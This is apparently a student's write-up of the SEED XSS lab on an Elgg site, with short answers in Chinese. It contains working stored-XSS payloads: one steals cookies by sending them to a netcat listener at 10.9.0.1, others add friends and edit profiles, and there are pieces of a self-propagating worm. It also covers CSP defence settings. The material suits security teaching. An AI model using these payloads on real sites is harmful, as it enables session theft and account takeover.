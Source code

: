 # XSS

## Task 1: Posting a Malicious Message to Display an Alert Window

```html
<script>alert('XSS');</script>
```

## Task 2: Posting a Malicious Message to Display Cookies

```html
<script>alert(document.cookie);</script>
```

![image-20220203225846272](Ch10-XSS.assets/image-20220203225846272.png)

## Task 3: Stealing Cookies from the Victim’s Machine

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
+ escape(document.cookie) + '>');
</script>
```

```shell
$ nc -lknv 5555
```

![image-20220203230215881](Ch10-XSS.assets/image-20220203230215881.png)

## Task 4: Becoming the Victim’s Friend

```html
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token; 
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

* Question 1: Explain the purpose of Lines 1 and 2, why are they are needed?

* Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e.,
  you cannot switch to the Text mode, can you still launch a successful attack?

  Answer 1: 用于获得用户的`elgg_ts`和`elgg_token`，这两个是用于防止CSRF的参数。

  Answer 2: 不能，因为HTML tag会被转义。

## Task 5: Modifying the Victim’s Profile

```html
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="description=<p>Samy is my hero.</p> &accesslevel[description]=2"+userName+guid+ts+token; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
if(elgg.session.user.guid!=samyGuid) // LINE
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```

Question 3: Why do we need LINE? Remove this line, and repeat your attack. Report and explain
your observation.

Answer: 防止修改Samy的profile。如果修改了Samy的profile，该XSS脚本将不再存在。

## Task 6: Writing a Self-Propagating XSS Worm

* Link approach

  ```shell
  <script type="text/javascript" src="http://www.example.com/xss_worm.js">
  </script>
  ```

  

* DOM approach
```html
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 
alert(jsCode);
</script>
```

## Task 7: Defeating XSS Attacks Using CSP

```
http://www.example32a.com
http://www.example32b.com
http://www.example32c.com
```



1. Describe and explain your observations when you visit these websites.
2. Click the button in the web pages from all the three websites, describe and explain your observations.
3. Change the server configuration on example32b (modify the Apache configuration), so Areas 5 and
6 display OK. Please include your modified configuration in the lab report.
4. Change the server configuration on example32c (modify the PHP code), so Areas 1, 2, 4, 5, and 6
all display OK. Please include your modified configuration in the lab report.
5. Please explain why CSP can help prevent Cross-Site Scripting attacks.

Answer:

1. http://www.example32a.com

   ![image-20220206142350939](Ch10-XSS.assets/image-20220206142350939.png)

	原因：没有设置任何CSP，可以执行所有脚本。
	
	http://www.example32b.com

	![image-20220206142429217](Ch10-XSS.assets/image-20220206142429217.png)
	
	原因：通过Apache设置了CSP，只允许self和*.example70.com的脚本。因此inline脚本不会被执行，其余来源的脚本也不会被执行。
	
	http://www.example32c.com
	
	![image-20220206142452095](Ch10-XSS.assets/image-20220206142452095.png)

	通过PHP设置了CSP，允许self、nonce-111-111-111和来自*.example70.com的脚本执行。

2. 点击按钮，只有example32a.com的脚本执行了。原因是内联JS脚本被CSP禁用。

3. 如下所示：

`nano /etc/apache2/sites-available/apache csp.conf`

   ```
   # Purpose: Setting CSP policies in Apache configuration
   <VirtualHost *:80>
       DocumentRoot /var/www/csp
       ServerName www.example32b.com
       DirectoryIndex index.html
       Header set Content-Security-Policy " \
                default-src 'self'; \
                script-src 'self' *.example60.com *.example70.com \
              "
   </VirtualHost>
   
   ```

   `script-src`中添加`*.example60.com`。

   ![image-20220206143349534](Ch10-XSS.assets/image-20220206143349534.png)

4. 如下所示：

   `nano nano /var/www/csp/phpindex.php `
   
   ```php
   <?php
     $cspheader = "Content-Security-Policy:".
                  "default-src 'self';".
                  "script-src 'self' 'nonce-111-111-111' *.example60.com *.example70.com".
                  "";
     header($cspheader);
   ?>
   
   <?php include 'index.html';?>
   
   ```
   
   添加了`*.example60.com `。

	![image-20220206143629113](Ch10-XSS.assets/image-20220206143629113.png)

5. CSP使用白名单告诉客户端允许加载和不允许加载的内容，降低XSS攻击的可能性。